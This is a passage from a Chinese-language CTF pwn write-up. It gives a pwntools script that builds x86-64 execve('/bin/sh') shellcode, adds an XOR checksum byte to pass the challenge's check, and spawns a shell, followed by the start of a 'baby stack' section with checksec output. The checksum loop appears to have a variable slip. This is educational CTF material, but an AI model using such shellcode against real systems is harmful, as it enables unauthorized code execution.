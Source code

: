 ```python
shellcode+=asm('mov rbx,0x68732f2f6e69622f')#'//bin/sh'
shellcode+=asm('push rbx')
shellcode+=asm('push rsp')#rsp是'//bin/sh'的地址
shellcode+=asm('pop rdi')
shellcode+=asm('mov al,0x3b')
shellcode+=asm('syscall')#execve('//bin/sh',0,0)
print len(shellcode)

#另一种写法
'''
shellcode=asm('xor rsi,rsi')
shellcode+=asm('xor rdx,rdx')
shellcode+=asm('xor rax,rax')
shellcode+=asm('push rax')
shellcode+=asm('push rax')
shellcode+=asm('mov rbx,0x68732f2f6e69622f')
shellcode+=asm('push rbx')
shellcode+=asm('mov rdi,rsp')#变动在这里，直接把rsp放到rdi
shellcode+=asm('mov al,0x3b')
shellcode+=asm('syscall')
print len(shellcode)
'''
#xor校验
temp=0
for i in range(15):
	temp^=ord(shellcode[2*i])

temp1=0
for i in range(14):
	temp^=ord(shellcode[2*i+1])

shellcode+=chr(temp^temp1)
print len(shellcode)
sa('ask?\n',shellcode)
shell()
```

flag:

![](https://github.com/CP32/ctf-pwn/blob/master/2019Aurora%E5%86%85%E9%83%A8%E8%B5%9B/face%20wall%20project/cat%20flag.jpg?raw=true)

PS：本题原型DEFCON QUALIFIER 2019 SPEED RUN 003，主要是对xor函数做了小改动。

PPS：本题彩蛋：《三体》-面壁计划



### baby stack

##### checksec分析

```
[*] '/home/ljb/ctf/aurora/exam/exam'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
